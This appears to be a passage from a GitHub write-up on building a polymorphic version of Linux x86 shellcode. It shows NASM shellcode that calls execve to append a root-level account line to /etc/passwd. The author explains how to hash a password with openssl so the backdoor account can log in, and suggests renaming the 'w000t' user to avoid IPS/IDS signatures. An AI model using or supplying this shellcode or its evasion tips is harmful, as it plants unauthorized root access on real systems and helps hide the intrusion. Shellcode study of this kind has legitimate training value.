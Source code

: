 ```nasm
  mov dword [esi +77], ebx  ; argv[] 2nd arg. Memory location of "-c" anfter first string,
  lea ebx, [esi +11]        ; move pointer to string "/bin/echo..." into ebx register
  mov dword [esi +81], ebx  ; argv[] 3rd arg. Mem location to "/bin/echo.." string
  mov dword [esi +85], eax  ; argv[] Null dword terminator.
  mov al, 0xb               ; 11 - syscall for execve
  mov ebx, esi              ; location of string "/bin/sh" for program filename
  lea ecx, [esi +73]        ; argv pointers to args
  lea edx, [esi +85]        ; fill edx with null dword
  int 0x80                  ; executes execve systemcall
jmp2call:
  call string2stack         ; jumps 2 next instruction and pushes memory location of string
                            ; below onto the stack.
  string db "/bin/sh#-c#/bin/echo w000t::0:0:s4fem0de:/root:/bin/bash >> /etc/passwd#AAAABBBBCCCCDDDD"
;            0123456789012345678901234567890123456789012345678901234567890123456789012345678901234567
;                      1         2         3         4         5         6         7         8
```
+ The code was compilted & tested; works as intended.
+ To find the intructions gdb was used. 

### Problem with this Shellcode
+ When this shellcode was created, linux systems would allow an account with no password to be logged in by anyone.
+ Modern Linux systems, will lock the account if it has no password.
+ Any attempt to login will recieve the error `"Authentication Failure"`.
+ Deleting a password is now a technique for sys-admins to lock a users account.

#### Creating a Hashed Password for /etc/passwd
```console
user$ openssl passwd ctl
NNwZ8D1QjVy3Y
```
+ This creates the hash for the password `ctl`. 
+ We will use this in the second field of `/etc/passwd` line.

#### w000t username
+ The strings `w00t` & `w000t` are frequently used in known exploits.
+ Highly likely an IPS/IDS will flag these strings.
+ the username `ctl` was used instead.

## Changing the Shellcode

### argv[] / ECX - Stack instead of Code Section
In the original shellcode, `JMP|Call|POP` was used to load the memory address of the string into the `esi` register. 
+ All pointers to fufill the second arguments `argv[]`, for `execve` where within this string.
+ In the polymorphic version, all of the arguements for `argv[]` on the `stack`.

#### argv[3] - End the argv[] Array
```nasm
  xor eax, eax              ; clear out eax register
snip--
  push eax                  ; push to stack argv[] Null dword array terminator.
```
